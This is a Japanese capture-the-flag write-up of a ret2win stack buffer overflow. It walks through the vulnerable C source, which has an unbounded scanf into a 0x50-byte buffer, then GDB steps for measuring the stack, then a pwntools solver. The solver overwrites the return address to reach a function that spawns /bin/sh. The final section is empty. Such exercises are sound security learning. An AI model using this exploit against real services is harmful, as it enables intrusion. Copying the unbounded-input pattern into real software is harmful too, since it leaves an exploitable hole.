





## 1.問題を解く前に

```tar -xvf [ファイル名]```でtarで圧縮されたファイルを解凍する。
```pwninit```ですでにテンプレートがあるsolve.pyを作る。

## 2.コードを見る

```c
#include <stdio.h>
#include <stdlib.h>

__attribute__((force_align_arg_pointer))
void win() {
    system("/bin/sh"); // You can launch the shell.
    exit(0);
}

void hello() {
    char name[0x50];
    printf("name : ");
    scanf("%s", name);
    printf("Hello %s!!\n", name);
}

int main() {

    hello();

    return 0;
}

__attribute__((constructor))
void setup() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}
```
今回の問題はディレクトリのファイル構造を見る限り、shellを起動させてflag.txtを見ることができれば**OK**
だということがわかるやろって。

## 3.dbgpwnでコードの書き始めとスタックを見る
ブレイクポイントをmainにしてdbgpwnを実行すると下のようになる


コードを見る限り、```hello```関数内で```scanf()```で読み取りをしているため```hello```関数まで進めてみる
進めるときは```ni```コマンドで進め、機械語のcallで```hello```関数が呼ばれたら、```si```コマンドでhello内に入る。

入ったら```ni```コマンドを使って```RIP```という次に実行する命令のアドレスが入るレジスタに注目する。


この```RIP```に```scanf()```が読み込まれるところまで進めます。


次に```ni```を押すと以下のように、


```stack```の```rsp```のアドレスに自分が入力した値が入ってることが分かる。
自分の値が入ったことを確認したら```stack 30```とコマンドをうち、```rsp```から```rbp```までのスタックがどのくらい積まれているのかを確認すれいいのかな。知らんけど

見たところ何となくだけど**0x50**積まれていることが分かった。
だから自分が作ったsolverは、以下の通りです。
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")

context.log_level = 'info'
context.binary = exe
context.terminal = ['tmux', 'splitw', '-h']
host = '192.168.11.63'
port = 11360

gdbscript = '''
b* main
c
'''


def conn():
    match args.TYPE:
        case 'REMOTE':
            r = remote(host, port)
        case 'DBG':
            r = gdb.debug([exe.path], gdbscript)
        case _:
            r = process([exe.path])

    return r


def main():
    r = conn()

    r.recvuntil(b'name : ')
    r.sendline(b'a' * 0x50 + b'a' * 0x8 + pack(0x4011b6))

    r.interactive()


if __name__ == "__main__":
    main()

```

## 4.自分の頭の中

